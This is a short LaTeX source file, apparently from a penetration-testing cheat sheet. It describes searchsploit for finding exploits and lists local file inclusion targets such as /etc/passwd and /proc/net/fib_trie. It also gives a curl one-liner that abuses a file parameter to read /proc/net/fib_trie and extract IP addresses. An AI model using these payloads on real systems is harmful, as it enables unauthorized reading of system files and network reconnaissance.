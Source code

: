 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\textbf{Searchsploit} is a command line tool directly binded to exploits-db.com that helps attacker find exploits over services in a specific version.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit} \OperatorTok{<}\NormalTok{service name + version}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{web-vulneratilities}{%
\chapter*{Web Vulneratilities}\label{web-vulneratilities}}

\hypertarget{lfi-local-file-inclusion}{%
\section*{LFI (Local File inclusion)}\label{lfi-local-file-inclusion}}

/etc/passwd
/etc/group

\begin{Shaded}
\end{Shaded}

/proc/shed\_debug
/proc/net/fib\_trie

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s }\StringTok{"http://localhost/example.php?file=/proc/net/fib_trie"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -i }\StringTok{"host local"}\NormalTok{ -B 1 }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}.\textbackslash{}d\{1,3\}'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}
\end{Highlighting}
\end{Shaded}
\end{document}

